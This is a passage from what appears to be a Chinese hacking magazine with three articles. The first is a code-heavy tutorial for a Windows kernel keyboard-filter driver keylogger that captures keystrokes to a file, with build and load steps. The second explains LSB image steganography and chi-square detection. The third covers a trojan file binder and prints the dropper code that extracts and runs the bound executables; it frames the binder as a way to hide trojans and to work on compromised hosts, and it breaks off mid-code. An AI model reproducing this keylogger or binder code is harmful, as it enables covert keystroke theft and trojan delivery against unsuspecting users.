以上过程中，厕所同时只能被一个人使用，也就相当于使用自旋锁可以保证共享资源只能被一个线程所拥有。

链表可以记录整型、浮点型、字符型或者程序员自定义的数据结构。链表通过指针将这些数据结构组成一个“链”，链中的每个元素对应着记录的数据。对于单向链表，每个元素中有一个 `Next` 指针指向下一个元素。对于双向链表，每个元素有两个指针，一个指向前一个元素，一个指向下一个元素。

使用 `LIST_ENTRY` 结构来表示双向链表，`LIST_ENTRY` 结构的定义如下所示：

```c
typedef struct _LIST_ENTRY {
  struct _LIST_ENTRY *Flink;
  struct _LIST_ENTRY *Blink;
} LIST_ENTRY, *PLIST_ENTRY;
```

其中，`Flink` 是指向下一个元素的指针，`Blink` 是指向前一个元素的指针。`InitializeListHead()` 函数和 `KeInitializeSpinLock()` 函数的作用是对自旋锁和双向链表进行初始化。

回到 `KbdHook.cpp` 源文件中的完成例程函数 `OnReadCompletion()`。在该函数中，调用 `ExInterlockedInsertTailList()` 函数将得到的按键信息添加到双向链表中。

```c
ExInterlockedInsertTailList(&pKeyboardDeviceExtension->QueueListHead,
  &kData->ListEntry,
  &pKeyboardDeviceExtension->lockQueue);
```

`ExInterlockedInsertTailList()` 函数将按键信息插入到双向链表的尾部，并且使用自旋锁来保证在插入链表的过程中没有其他线程访问该链表。该函数的第 1 个参数指定了要插入的双向链表；第 2 个参数表示要插入到链表尾部的内容；第 3 个参数指定了函数使用的自旋锁。

但需要注意的是，完成例程运行在 `DISPATCH_LEVEL` 中断级别上，而文件写操作是在 `PASSIVE_LEVEL` 中断级别中运行的。`DISPATCH_LEVEL` 的级别高于 `PASSIVE_LEVEL`，因此在完成例程中无法进行文件写入。解决以上问题的方法是创建运行在 `PASSIVE_LEVEL` 级别的工作者线程来完成文件写入。

在完成例程 `OnReadCompletion()` 中将获取的键盘信息加入到一个双向链表中，在工作者线程中对这个双向链表进行访问。为了实现完成例程与工作者线程的同步，也就是说要保证在完成例程将按键信息加入到列表时，没有工作者线程来读取这个链表，驱动程序使用了信号灯。

信号灯也是一种常用的同步对象，分为激发和未激发两种状态。信号灯内部有个计数器，该计数器不为零时，信号灯处于激发状态；计数器为零时，信号灯处于未激发状态。驱动程序通过判断信号灯状态来实现线程间同步。

在本驱动程序中，首先在入口函数 `DriverEntry()` 中调用 `KeInitializeSemaphore()` 函数实现信号灯初始化。

```c
KeInitializeSemaphore(&pKeyboardDeviceExtension->semQueue, 0, MAXLONG);
```

其中，`KeInitializeSemaphore()` 函数的第 1 个参数表示指定信号灯对象的指针；第 2 个参数表示初始化时信号灯计数，0 表示此时信号灯处于未激活状态；第 3 个参数表示信号灯计数上限，`MAXLONG` 的定义如下所示：

```c
#define MAXLONG 0x7fffffff
```

回到 `KbdHook.cpp` 源文件的完成例程函数 `OnReadCompletion()` 中。在调用 `ExInterlockedInsertTailList()` 函数将按键信息插入到双向链表后，完成例程调用 `KeReleaseSemaphore()` 函数来释放信号灯，这会增加信号灯计数。之前初始化时将计数设置为 0，在调用 `KeReleaseSemaphore()` 后，计数变为 1，此时信号灯处于激活状态。

```c
KeReleaseSemaphore(&pKeyboardDeviceExtension->semQueue, 0, 1, FALSE);
```

`KeReleaseSemaphore()` 函数的第 1 个参数表示要释放的信号灯指针；第 2 个参数表示被唤醒线程的调度优先级提高程度，0 表示不需要提高优先级；第 3 个参数指定了信号灯增加的计数量；第 4 个参数指定…………了在 `KeReleaseSemaphore()` 函数之后是否马上调用等待函数；`FALSE` 表示不需要马上调用等待函数。

从以上的分析可知，当完成例程向双向链表中写入按键信息时，信号灯的状态处于未激活状态；当完成写入后，信号灯的状态变为激活状态。

前面提到的等待函数是 `KeWaitXX` 系列函数，如果信号灯处于激活状态，则该函数将信号灯计数减 1，程序继续向下进行；如果信号灯处于未激活状态，则等待函数需要等待信号灯变为激活状态，程序在等待过程中不能向下进行。等待函数在工作者线程 `ThreadKeyLogger()` 函数中调用。

```cpp
while(true)
{
    KeWaitForSingleObject(&pKeyboardDeviceExtension->semQueue, Executive, KernelMode, FALSE, NULL);
    ...
}
```

`KeWaitForSingleObject()` 函数的第 1 个参数表示指定信号灯的指针；第 2 个参数指定了等待的原因（驱动程序中设为 `Executive`）；第 3 个参数指定在内核模式还是用户模式下等待（`KernelMode`）；第 4 个参数指定等待结束后是否需要通知（`FALSE` 表示不通知）；第 5 个参数指定等待时间。

从以上分析可知，当完成例程将按键信息写入双向链表时，信号灯处于未激活状态，此时在工作者线程中，`KeWaitForSingleObject()` 处于等待状态，线程不能读取链表内容。当完成例程完成写入后，信号灯变为激活状态，`KeWaitForSingleObject()` 取消等待，程序继续执行，完成对双向链表的读取。

接下来对 IRP 中成员变量 `PendingReturned` 进行判断；如果该变量值是 `TRUE`，说明从下层驱动返回的 IRP 是异步的。对于这种情况，完成例程需要调用 `IoMarkIrpPending()` 对截获到 IRP 的成员变量 `Control` 进行设置。

```cpp
if (pIrp->PendingReturned)
    IoMarkIrpPending(pIrp);
```

其中，`IoMarkIrpPending()` 宏的定义如下：

```cpp
#define IoMarkIrpPending(Irp) (IoGetCurrentIrpStackLocation((IRP)->Control |= SL_PENDING_RETURNED))
```

也就是说，如果下层 IRP 是异步返回，则在键盘监听驱动程序的完成例程中，在截获到 IRP 的 `Control` 位中加入 `SL_PENDING_RETURNED`，通知系统将该 IRP 挂起（pending），等待下层驱动完成该 IRP。

通过以上代码，键盘监听驱动程序完成了对截获到一个读取 IRP 的处理。因此，表示读取 IRP 数量的变量 `numPendingIrps` 要减 1。

```cpp
numPendingIrps--;
```

最后，返回 IRP 中表示操作状态的信息。

```cpp
return pIrp->IoStatus.Status;


```

从图 11 中可以归纳出键盘监听驱动程序的工作流程。在驱动程序中，将 `IRP_MJ_READ` 的派遣函数设置为 `DispatchRead()`；当“下行”的 IRP 中包含 `IRP_MJ_READ` 时，调用 `DispatchRead()` 对完成例程 `OnReadCompletion()` 进行注册。此时 IRP 中 `CompletionRoutine` 域指向完成例程。IRP 在底层键盘驱动处理后，按键信息保存在 IRP 中，IRP 变为“上行”；沿设备堆栈上行过程中，若某层设备的 `CompletionRoutine` 非空，则调用对应函数。键盘监听驱动程序的完成例程 `OnReadCompletion()` 读取按键信息，并保存到双向链表中。
##### 工作者线程

回到驱动程序的主函数 `DriverEntry()` 中，程序调用自定义函数 `InitThreadKeyLogger()` 创建工作者线程，将截获的按键信息写入到指定文件中。

```cpp
InitThreadKeyLogger(pDriverObject);
```

`InitThreadKeyLogger()` 函数在 `KbdLog.cpp` 文件中定义。在该函数中，首先获取设备扩展的指针。

```cpp
PDEVICE_EXTENSION pKeyboardDeviceExtension =
    (PDEVICE_EXTENSION)
    pDriverObject->DeviceObject->DeviceExtension;
```

其中，`pDriverObject` 是 `InitThreadKeyLogger()` 函数的参数，是驱动对象的指针，取对应的设备扩展的指针。

接下来在设备扩展中设置工作者线程的状态。在自定义的设备扩展结构 `DEVICE_EXTENSION` 中，成员变量 `bThreadTerminate` 表示线程是否被结束。若该变量为 `TRUE`，表示线程被结束；若该变量为 `FALSE`，表示线程没有被结束，也就是线程处于运行状态。在 `InitThreadKeyLogger()` 函数中，我们创建工作者线程，因此，需要将设备扩展中的 `bThreadTerminate` 变量的值设置为 `FALSE`。

```c
pKeyboardDeviceExtension->bThreadTerminate = false;
```

然后调用 `PsCreateSystemThread()` 函数创建工作者线程。

```c
HANDLE hThread;
NTSTATUS status = PsCreateSystemThread(&hThread,
    (ACCESS_MASK)0, NULL, (HANDLE)0, NULL,
    ThreadKeyLogger, pKeyboardDeviceExtension);
```

`PsCreateSystemThread()` 函数创建一个在内核模式下执行的系统线程，并返回该线程的句柄。第 1 个参数表示创建新线程句柄的指针；第 2 个参数指定线程访问权限类型；第 3/4/5 个参数在驱动中通常设为 `NULL`；第 6 个参数指定线程入口点（这里是 `ThreadKeyLogger()`）；第 7 个参数为传递给线程的参数（这里是设备扩展指针）。

接下来将新创建的线程对象指针保存在设备扩展中。

```c
ObReferenceObjectByHandle(hThread, THREAD_ALL_ACCESS,
    NULL, KernelMode,
    (PVOID*)&pKeyboardDeviceExtension->pThreadObj, NULL);
```

`ObReferenceObjectByHandle()` 的作用是通过对象句柄获取对象指针。`hThread` 为之前创建的工作者线程句柄；`THREAD_ALL_ACCESS` 表示全部访问权限；对象类型指针可为 `NULL`；访问模式为 `KernelMode`；输出对象指针保存在设备扩展成员 `pThreadObj`（类型为 `PETHREAD`）中，用于保存工作者线程的指针。第 6 个参数用于保存句柄的属性和授予的访问权限，在此将该参数设置为 `NULL`。最后，关闭创建的线程句柄。

接下来我们看一下工作者线程函数 `ThreadKeyLogger()` 的具体编写。函数 `ThreadKeyLogger()` 在 `KbdLog.cpp` 文件中定义。

在 `ThreadKeyLogger()` 函数中，首先根据函数参数获取设备扩展的指针，并根据设备扩展指针得到设备对象的指针。

```c
PDEVICE_EXTENSION pKeyboardDeviceExtension =
    (PDEVICE_EXTENSION)pContext;
PDEVICE_OBJECT pKeyboardDeviceObject =
    pKeyboardDeviceExtension->pKeyboardDevice;
```

接下来在 `while()` 的无限循环中，首先调用 `KeWaitForSingleObject()` 等待信号灯激活。之前提到，当完成例程 `OnReadCompletion()` 将按键信息保存到双向链表后，信号灯状态才变为激活。

```c
KeWaitForSingleObject(&pKeyboardDeviceExtension->semQueue,
    Executive, KernelMode, FALSE, NULL);
```

然后通过 `ExInterlockedRemoveHeadList()` 从双向链表头部取出按键信息，并在链表中删除该信息；以上过程通过互锁操作实现读取同步。

```c
pListEntry = ExInterlockedRemoveHeadList(
    &pKeyboardDeviceExtension->QueueListHead,
    &pKeyboardDeviceExtension->lockQueue);
```

其中，第 1 个参数指定双向链表头部；第 2 个参数指定同步使用的自旋锁。得到的头部指针保存在变量 `pListEntry` 中，该变量在 `while()` 循环外声明。

```c
PLIST_ENTRY pListEntry;
```

当卸载驱动时，需要结束这些工作者线程。但运行在内核模式下的线程不能由外部直接结束，只能在线程内部结束。这就需要检查设备扩展中的 `bThreadTerminate`，若该值为 `TRUE`，则在线程内调用 `PsTerminateSystemThread()` 结束自身。

```c
if (pKeyboardDeviceExtension->bThreadTerminate == true)
{
    PsTerminateSystemThread(STATUS_SUCCESS);
}
```

之前提到，按键信息都包含在双向链表中。但保存在双向链表中的按键信息不能直接访问，需要通过 `CONTAINING_RECORD` 宏获取该数据结构的起始地址。

```c
kData = CONTAINING_RECORD(pListEntry, KEY_DATA, ListEntry);
```

该宏的第 1 个参数表示按键信息结构中某个成员的地址，`pListEntry` 是按键信息结构中第一个成员的地址；第 2 个参数是结构体类型，`KEY_DATA` 表示按键信息的结构，在 `Klog.h` 中定义；第 3 个参数表示结构体中的成员。`kData` 包含了按键信息的地址，该变量在 `while()` 循环语句外部声明。

```c
KEY_DATA* kData;
```

在此获取的按键信息是键盘扫描码的信息，我们需要将键盘扫描码的信息转化成真正的键盘按键信息。那么什么是键盘扫描码呢？键盘上的每一个键都有两个唯一的数值作为标志，这两个数值分别表示某个按键被按下和被释放，这些数值在系统中被称为键盘扫描码。在本文涉及的驱动程序中，调用自定义函数 `ConvertScanCodeToKeyCode()` 将键盘扫描码转化成真正的键盘按键信息。

```c
ConvertScanCodeToKeyCode(pKeyboardDeviceExtension, kData, keys);
```

其中，第 1 个参数表示设备扩展的指针，第 2 个参数表示要转换的键盘扫描码的地址，第 3 个参数表示真正的键盘按键信息。`ConvertScanCodeToKeyCode()` 函数在 `ScanCode.cpp` 文件中定义，由于该函数与驱动的关系不大，在此不做详细分析。

在将扫描码转化成真正的键盘按键信息后，接下来就应该将该信息写入到指定的文件中了。在驱动程序的入口函数 `DriverEntry()` 中创建指定的文件。

```c
RtlAnsiStringToUnicodeString(&uFileName, &ntNameString, TRUE);
InitializeObjectAttributes(&obj_attrib, &uFileName, OBJ_CASE_INSENSITIVE, NULL, NULL);
Status = ZwCreateFile(&pKeyboardDeviceExtension->hLogFile,
    GENERIC_WRITE, &obj_attrib, &file_status, NULL,
    FILE_ATTRIBUTE_NORMAL, 0, FILE_OPEN_IF,
    FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
```

其中，`RtlAnsiStringToUnicodeString()` 函数的作用是将类型为 ANSI 字符串的文件名 `ntNameString` 转换成 UNICODE 字符串文件名 `uFileName`。

`InitializeObjectAttributes()` 函数为 `ZwCreateFile()` 函数提供了一个类型为 `OBJECT_ATTRIBUTES` 的参数，也就是要创建的文件名信息。该函数的第 1 个参数是对象属性的指针，类型为 `POBJECT_ATTRIBUTES`，该指针作为 `ZwCreateFile()` 函数的参数使用；第 2 个参数为对象名的绝对路径，`uFileName` 是转换成 UNICODE 类型的文件名；第 3 个参数指定了对象的属性，`OBJ_CASE_INSENSITIVE` 表示文件名忽略字母的大小写；第 4 个参数表示创建的对象所在根目录的句柄；第 5 个参数表示初始化的安全描述符。

`ZwCreateFile()` 函数在内核模式下创建指定的文件。

该函数的第 1 个参数表示创建文件句柄的指针，`pKeyboardDeviceExtension` 是设备扩展的指针，`hLogFile` 类型是 `HANDLE`，表示记录截获按键信息文件的句柄。第 2 个参数指定了对创建文件的权限，因为需要将按键信息写入到文件中，因此需要将该参数设置为 `GENERIC_WRITE`，表示具有写权限。第 3 个参数是通过 `InitializeObjectAttributes()` 初始化的结构指针。第 4 个参数是接收完成状态的结构的指针，`file_status` 在 `DriverEntry()` 中声明为：`IO_STATUS_BLOCK file_status;`。第 5 个参数指定了为文件分配的大小。第 6 个参数指定了创建文件的属性，`FILE_ATTRIBUTE_NORMAL` 表示创建的文件具有标准属性。第 7 个参数指定了新创建文件的共享权限，`0` 表示调用者对新创建的文件拥有独占权限（exclusive access）。如果指定的文件存在，第 8 个参数决定了接下来的动作，`FILE_OPEN_IF` 表示如果指定的文件存在，则打开文件；如果指定的文件不存在，则创建文件。第 9 个参数指定了创建文件时的一些选项，`FILE_SYNCHRONOUS_IO_NONALERT` 的含义是在新创建的文件上进行的所有操作都是同步的，这些在同步队列中的等待不支持被通知。第 10 个参数是一个缓冲区，对于设备和中间驱动来说，该参数必须设置为 `NULL`；第 11 个参数表示第 10 个参数所表示缓冲区的长度，对于设备和中间驱动来说，该参数必须设置成 `0`。

回到 `KbdLog.cpp` 文件的工作者线程 `ThreadKeyLogger()` 中来，在调用 `ConvertScanCodeToKeyCode()` 函数将按键扫描码信息转化成真正的按键信息之后，对按键信息和文件句柄进行判断。

```c
if(keys != 0)
{
    if(pKeyboardDeviceExtension->hLogFile != NULL)
    {
        ...
    }
}
```

其中，`keys` 是通过 `ConvertScanCodeToKeyCode()` 函数转换后的真正按键信息，通过设备扩展指针调用的文件句柄 `hLogFile` 是驱动程序入口函数 `DriverEntry()` 中调用 `ZwCreateFile()` 函数获得的创建文件句柄。

如果真正的按键信息和文件句柄都不为空，则调用 `ZwWriteFile()` 函数将真正的按键信息复制到创建的文件中。

```c
IO_STATUS_BLOCK io_status;
NTSTATUS status = ZwWriteFile(pKeyboardDeviceExtension->hLogFile,
    NULL, NULL, NULL, &io_status,
    &keys, sizeof(keys), NULL, NULL);
```

`ZwWriteFile()` 函数的第 1 个参数表示指定文件的句柄。第 2 个参数表示一个事件句柄，当写入操作完成后，该事件将被设置成“传信”（signaled）状态；对于设备和中间驱动来说，该参数可以设置为 `NULL`。第 3 个参数表示 APC 例程，对于设备和中间驱动，该参数可以设置为 `NULL`。第 4 个参数表示 APC 的上下文，对于设备和中间驱动，该参数可以设置为 `NULL`。第 5 个参数是一个变量的指针，该变量用来保存写入时的信息和写入状态。第 6 个参数表示要写入文件的内容。第 7 个参数表示保存写入内容缓冲区的大小。第 8 个参数表示向文件写入数据时，将数据写入到文件的哪个位置，`NULL` 表示将数据写入到文件的当前位置处。第 9 个参数是一个 `PULONG` 类型的变量，对于设备和中间驱动，该参数可以设置为 `NULL`。

以上代码将截获到的按键信息保存在了指定的文件中。

##### 卸载函数

回到 `Klog.cpp` 文件中驱动程序的入口函数 `DriverEntry()`。最后，在入口函数中设置卸载函数，当驱动程序卸载时调用该函数。

```c
pDriverObject->DriverUnload = Unload;
```

`Unload()` 函数在 `Klog.cpp` 文件中定义。在该函数中，首先获取驱动设备扩展的指针。

```c
PDEVICE_EXTENSION pKeyboardDeviceExtension = (PDEVICE_EXTENSION)pDriverObject->DeviceObject->DeviceExtension;
```

接下来调用 `IoDetachDevice()` 函数，将添加到键盘设备堆栈中的本驱动程序对应设备对象从设备堆栈中删除。

```c
IoDetachDevice(pKeyboardDeviceExtension->pKeyboardDevice);
```

然后，根据前面提到的表示等待 IRP 数量的变量 `numPendingIrps` 进行判断。如果该变量大于 0，说明此时还有 IRP 等待处理。对于这种情况，卸载函数使用计数器等待 IRP 被处理完。

```c
KTIMER kTimer;
LARGE_INTEGER timeout;
timeout.QuadPart = 1000000;
KeInitializeTimer(&kTimer);
while(numPendingIrps > 0)
{
    KeSetTimer(&kTimer, timeout, NULL);
    KeWaitForSingleObject(&kTimer, Executive, KernelMode, false, NULL);
}
```

其中，`LARGE_INTEGER` 的成员变量 `QuadPart` 的单位是 `1/10^7 s`。`KeInitializeTimer()` 函数的作用是初始化计时器。`KeSetTimer()` 函数的作用是设置计时器。接下来，将工作者线程的状态设置为可结束。

```c
pKeyboardDeviceExtension->bThreadTerminate = true;
```

之后，释放创建的信号灯。

```c
KeReleaseSemaphore(&pKeyboardDeviceExtension->semQueue, 0, 1, TRUE);
```

然后，调用 `KeWaitForSingleObject()` 函数等待工作者线程结束。

```c
KeWaitForSingleObject(pKeyboardDeviceExtension->pThreadObj, Executive, KernelMode, false, NULL);
```

接下来调用 `ZwClose()` 函数关闭打开的文件句柄。

```c
ZwClose(pKeyboardDeviceExtension->hLogFile);
```

最后，删除已创建的设备对象。

```c
IoDeleteDevice(pDriverObject->DeviceObject);


```

最后，我们再次回顾驱动程序入口函数 `DriverEntry()` 的流程，如图 12 所示。
在 `DriverEntry()` 函数中，首先对 `IRP_MJ_READ` 设置派遣函数，在派遣函数中注册完成例程，截获“上行”IRP 中的按键信息。之后，调用自定义函数 `HookKeyboard()` 将创建的设备对象挂载到键盘设备堆栈上。然后调用自定义函数 `InitThreadKeyLogger()` 创建工作者线程，在工作者线程中，将截获的按键信息保存在指定文件中；接下来调用 `ZwCreateFile()` 函数创建指定文件，最后将驱动的卸载例程设置为 `Unload()` 函数。

##### 驱动程序的编译

在对驱动程序进行编译之前，还需要在驱动程序的路径中加入 `MAKEFILE` 文件和 `SOURCE` 文件。`MAKEFILE` 文件指定了驱动程序文件之间相互依赖的关系，确定项目中哪些文件需要重新编译。大多数情况下，`MAKEFILE` 文件的内容是：

```makefile
!INCLUDE $(NTMAKEENV)\makefile.def
```

以上内容表示文件在编译时需包含 DDK 目录中的 `makefile.def` 文件。`SOURCE` 文件记录了需要编译的源文件文件名，包含目录路径、库目录路径等信息。本程序的 `SOURCE` 文件的内容为：```makefile
TARGETNAME=Klog
TARGETPATH=BIN
TARGETTYPE=DRIVER
MSC_WARNING_LEVEL=/W3
SOURCES=Klog.cpp KbdLog.cpp ScanCode.cpp KbdHook.cpp
```

图 15  驱动程序的编译

其中，TARGETNAME 表示目标驱动的名称，即编译后生成的驱动程序名称；TARGETPATH 表示目标代码生成的路径，即生成的驱动程序保存路径；TARGETTYPE 表示目标代码生成的类型，DRIVER 表示生成驱动；MSC_WARNING_LEVEL 表示编译警告级别，/W3 表示第三级别警告；SOURCES 指定了工程的所有源文件。

使用 Windows DDK 对以上代码进行编译。单击“开始”菜单，选择“所有程序”，之后选择“Development Kits > Windows DDK > Build Environments > Win XP Checked Build Environment”，进入编译环境，如图 13 所示。假设驱动程序代码保存在 C 盘根目录下的 Klog 文件夹下。在 DDK 编译环境中输入“cd c:\”，将当前路径设置为 C 盘根目录，并输入“cd Klog”，将路径设置为 Klog 文件夹，如图 14 所示。最后，在该环境下输入“build”，并按下回车键，如图 15 所示。编译得到的驱动程序是 bin 文件夹下 i386 子文件夹中的 Klog.sys 文件。

接下来通过 DriverMonitor.exe 程序加载 Klog.sys 驱动程序。加载方法是在 DriverMonitor.exe 程序主界面中选择工具栏中的“打开”按钮，通过路径选择对话框选择 Klog.sys 文件，之后单击工具栏中绿色的“运行驱动”按钮，如图 16 所示。

图 16  DriverMonitor 程序的工具栏

在启动键盘监听驱动之后，随便按下键盘按键，之后单击 DriverMonitor.exe 程序主界面工具栏中红色的“停止驱动”按钮。在 C 盘根目录下的 Klog.txt 文本文件中就包含了刚才的按键信息，如图 17 所示。

图 17  键盘监听的内容

尽管我们比较完美地完成了这款键盘监听程序，但仍然存在一些不足，比如只能监听美式键盘，不能监听输入的汉字等，还有望大家共同加以完善。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

图 13  DDK 编译环境

图 14  驱动程序所在路径

- 前置知识：VC
- 关键词：编程、LSB 位、信息隐藏

##### 利用 LSB 位信息实现隐藏与隐写

文/图 王丽婧 尹晓丹

对于图像载体，其信号空间也就是像素值的取值空间。单纯地谈像素实际上是不科学的，因为可以用不同的坐标去表述它，因此笔者选择了 RGB 空间下的像素作为分析对象，对 RGB 颜色空间的 LSB 位信息隐藏进行了研究并进行了隐写分析。为了描述方便，并能更好地与“位”这一概念相联系，笔者使用的图片一律用无符号 8 位整型数（uint8）存放。

###### LSB 位信息隐藏与提取

- 1）原理介绍

LSB（Least Significant Bits）对应的中文意思是“最不重要位”，也称为最低有效位。在 LSB 位上进行信息隐藏的原理是在用字节表示的图像中，改变字节的最低位，该最低位的变化是人眼不易察觉的，又叫做空间上的冗余，把信息隐藏在这里是比较理想的。

- 2）信息隐藏与提取算法

LSB 隐写的思路就是将要隐写的信息替换图像的最不重要位，如图 1 所示。

嵌入算法：从记事本读取隐藏信息放到矩阵 msg；长度为 count；读入 RGB 图片，取 R 层到 ste_cover；判断消息量是否过大，不过大可以继续嵌入工作；将 R 层重新写入新矩阵；将新矩阵写入 BMP 格式图片。

```text
[m,n]=size(ste_cover);
for i=1:m
  for j=1:n
    if 嵌入信息的变化特位为1
      则 ste_cover(i,j)=...&254
    else ste_cover(i,j)=...|1
    // 如果信息嵌入结束则跳出循环
  end
end
```

提取算法：已知提取信息的长度 count，读入 RGB 图片，取 R 层到 ste_cover，判断消息量是否过大，不过大可以继续提取工作。

```text
[m,n]=size(ste_cover);
for i=1:m
  for j=1:n
    if ste_cover(i,j)最后一位为0，写入txt为0
    else 写1
    // 如果到了提取的长度则退出
  end
end
```

利用这一思路，实现嵌入前后的效果如图 2 和图 3 所示。发现从肉眼来看，几乎看不出任何变化，说明 LSB 的变化确实不易被人眼察觉，是很好的隐藏信息位置。

嵌入内容（1.txt 为嵌入内容，2.txt 为提取内容）如图 4 所示，可以发现在图片没有经过其他处理时，可以完整地提取出隐藏信息。

图片矩阵的比较如图 5 所示，通过矩阵可以看出，只有最后一位在改变，对图片改动不大。

- 3）JPEG 与 BMP 比较

最开始，笔者曾经将隐藏了信息的图片保存为 JPG 格式，但是提取出来的都是乱码，后来改成保存为 BMP 格式就可以了。经分析得知，BMP 格式为无损压缩，而 JPG 为有损压缩，可知 LSB 算法不抗有损压缩，所以提取出的是乱码。

###### LSB 隐写分析

隐写分析是指在已知或未知嵌入算法的情况下，从观察到的数据检测判断其中是否存在秘密信息，分析数据量的大小和数据嵌入的位置，并最终破解嵌入内容的过程。正常的图片应该是平滑和连续的，像素之间有很强的相关性。隐藏的信息应该是与图片无关的，嵌入到图片中必然会减弱像素之间的相关性。隐写分析通过视觉或统计上的差异将原始图像和隐写图像区别开来。

LSB 隐写会引起最后一位平面变化，同时 LSB 替换会引起统计不对称性，可以从这两个方面入手进行隐写分析，具体可以分为视觉攻击和卡方检测方法。

- 1）视觉攻击

视觉攻击是将秘密信息可能隐藏位置的二元值抽取出来，依其相关位置组成一个位元平面，然后用人类视觉来判断是否有秘密信息隐藏其中，适用于分析 LSB 空域隐写。在像素的最低位平面隐藏信息后，虽然整个图像可以达到不可察觉性，但由于隐藏信息集中在最低位平面上，因此若对最低平面取样，即可察觉其隐藏情形并可大概估计隐藏信息长度。

图 6、图 7 和图 8 是三组分别在不同嵌入率下得到的视觉攻击效果截图，通过视觉攻击可以明显看出是否有信息嵌入以及嵌入位置。

- 2）卡方检测

由于 LSB 嵌入对像素灰度的修改如下（记为操作 1）：0↔1，2↔3，…，2i↔2i+1，…，254↔255；不存在下面这些修改方式（记为操作 2）：1↔2，3↔4，…，2i-1↔2i，…，253↔254。操作 1 使灰度为 2i 和 2i+1 的像素数目趋于接近，如图 9 所示。

由于这一特性，使得 PoV（2i,2i+1）的频率趋向一致。通过检测空域像素直方图的改变进行隐写分析。卡方检测原理就是基于此，具体公式如图 10 和图 11 所示。

```text
$$S_{POV}=\sum_{l=0}^{127}\frac{\frac{1}{2}(Y_{2l}-Y_{2l+1})^2}{Y_{2l}+Y_{2l+1}}$$

图 10
```

```text
$$P=1-\frac{1}{2^{k-1}\Gamma\left(\frac{k-1}{2}\right)}\int_{s}^{\infty}e^{-x/2}x^{\frac{k-1}{2}-1}\,dx$$

图 11
```

S 是卡方统计量，S 越大说明 PoV（2i,2i+1）的频率差异越大，越接近自然图像；p 表示估计值与观测值相等的概率分布函数，p 越小，待测图像越可能是自然图像；反之，越有可能嵌入信息。通过实验数据可以看出，检测成功。

图 10 是四组分别在不同嵌入率下得到的卡方检测效果截图。

##### 总结

LSB 信息隐藏信息容量大，并且图像失真小，因此被广泛使用；本文也给出了隐藏与提取的具体实现。然而，这种隐藏方法是十分脆弱的，因为最低有效位同时也是最容易丢失的位。同时笔者也对 LSB 信息隐藏进行了隐写分析，并得到较好的结果。可见 LSB 隐写安全性有待提升，并且应从空域转换到频域进行隐藏，希望能够在接下来的研究中与大家进行更多的交流。

- 前置知识：VC
- 关键词：编程、捆绑器、命令行释放

##### 远程文件捆绑器的原理与实现

文/图 masepu

文件捆绑器可以将多个程序或文件捆绑成单个可执行文件，在运行该单个可执行文件时就可以同时运行被捆绑的多个程序和文件，达到执行一个程序而多个文件同时运行的目的。文件捆绑器可以作为一种简单的打包工具来使用，以便简化程序安装。当然，其最常见的用途还是作为木马和正常程序绑定的黑客工具。利用它，攻击者可以把木马隐藏在一个正常的可执行文件中，然后诱使对方运行，对于普通使用者来说很难察觉一个被捆绑的文件与正常文件之间的区别。

一个经过捆绑的可执行文件包含多个部分，如图 1 所示。第一部分是捆绑文件释放程序，是捆绑器实现的一个核心模块，功能包括根据尾部各捆绑文件长度信息来释放文件尾部的两个或多个被捆绑文件，以及将释放的文件运行起来，这部分是捆绑后生成文件的执行体。第二部分就是被捆绑的文件，数量由两个到多个不等，是需要被释放和运行的数据集合。第三部分由各个被捆绑文件的长度信息组成，释放程序根据这些长度信息来释放被捆绑文件，否则无法将捆绑在文件尾部的各个文件数据正确分离出来。

网上可以找到很多类型的文件捆绑器，比如常见的万能文件捆绑器，它可以绑定多个不同类型的文件，除了可执行文件外，其他类型都能捆绑，前提是使用者的系统支持这种类型文件，否则会打开失败。有些简单的文件捆绑器一般只能捆绑可执行文件，而且文件个数也有限制。这些常见的文件捆绑器由于广泛传播和使用，已被大部分杀毒软件所查杀。同时这些软件都有操作界面且不支持命令行方式的捆绑操作，远程使用很不方便。比如使用者想对肉鸡上的文件进行远程捆绑操作时，如果没有远程桌面就很难实现。因此，我打算自己打造一个支持命令行方式的文件捆绑器，既可以在今后方便使用，又可以理清文件捆绑器的实现思路，为识别检测此类捆绑文件打下基础。

图 1

实际上，在捆绑器捆绑生成的文件中，上面的第一部分就是一个完整的 PE 文件，它的作用是将自身尾部的捆绑文件大小读出并据此信息正确释放被捆绑的文件。之所以该文件后面加了大量数据还能够正常运行，是因为 PE 文件在执行时并不检查自身文件大小，PE 文件头已明确标识了自身文件的各部分属性，后面的这些“无用”数据并不会被加载执行。这也是我们进行文件捆绑的重要理论基础。

释放文件的方法很多，比如将所有文件的大小信息保存到整个捆绑文件的最后一部分，释放运行时再从中读取；也可以不保存文件大小，而以查找预先设定的被捆绑文件间的特殊分割字符串来定位每个被捆绑文件的具体位置。本文为了便于实现，采用了第一种方法，在代码中只实现了两个文件的捆绑功能，不过多个程序的捆绑原理相同。以下是释放被捆绑文件并执行程序的部分关键代码：

```c
if(GetModuleFileName(0,SelfFileName,50)==0) return -1;
if((SelfFile=open(SelfFileName,O_RDONLY|O_BINARY))!=-1)
{
    SelfFileLength=filelength(SelfFile);
    // 获得自身文件长度
    if(SelfFileLength!=-1L)
    {
        lseek(SelfFile,SelfFileLength-60,SEEK_SET);
        // 设置文件当前位置在距文件结尾60个字节处
    }
    if(read(SelfFile,Temp,20)!=-1) strcpy(CBindFileLength,Temp);
    if(read(SelfFile,Temp,20)!=-1) strcpy(CFirstFileLength,Temp);
    if(read(SelfFile,Temp,20)!=-1) strcpy(CSecondFileLength,Temp);

    FirstFileLength=atol(CFirstFileLength);
    SecondFileLength=atol(CSecondFileLength);

    if(lseek(SelfFile,SelfFileLength-FirstFileLength-SecondFileLength-40,SEEK_SET)!=-1L)
    {
        FirstFile=open("c:\\boot.exe",O_BINARY|O_CREAT|O_WRONLY);
        // 释放第一个文件
        for(i=0;i<FirstFileLength;i++)
        {
            read(SelfFile,Temp,1);
            write(FirstFile,Temp,1);
        }
        close(FirstFile);

        SecondFile=open("c:\\autoRun.exe",O_BINARY|O_CREAT|O_WRONLY);
        // 释放第二个文件
        for(i=0;i<SecondFileLength;i++)
        {
            read(SelfFile,Temp,1);
            write(SecondFile,Temp,1);
        }
        close(SecondFile);
    }
    WinExec("C:\\boot.exe",SW_SHOWNORMAL);
    // 执行 WinExec("c:\\autoRun.exe",SW_SHOWNORMAL);
}
```

接下来要实现的是将这些被捆绑文件捆绑起来的代码，也就是按照图 1 的方式将所有相关文件和信息打包的过程。以下是部分关键代码：

```c
if(argc<2) return usage();
strcpy(FirstFileName,argv[1]);
strcpy(SecondFileName,argv[2]);

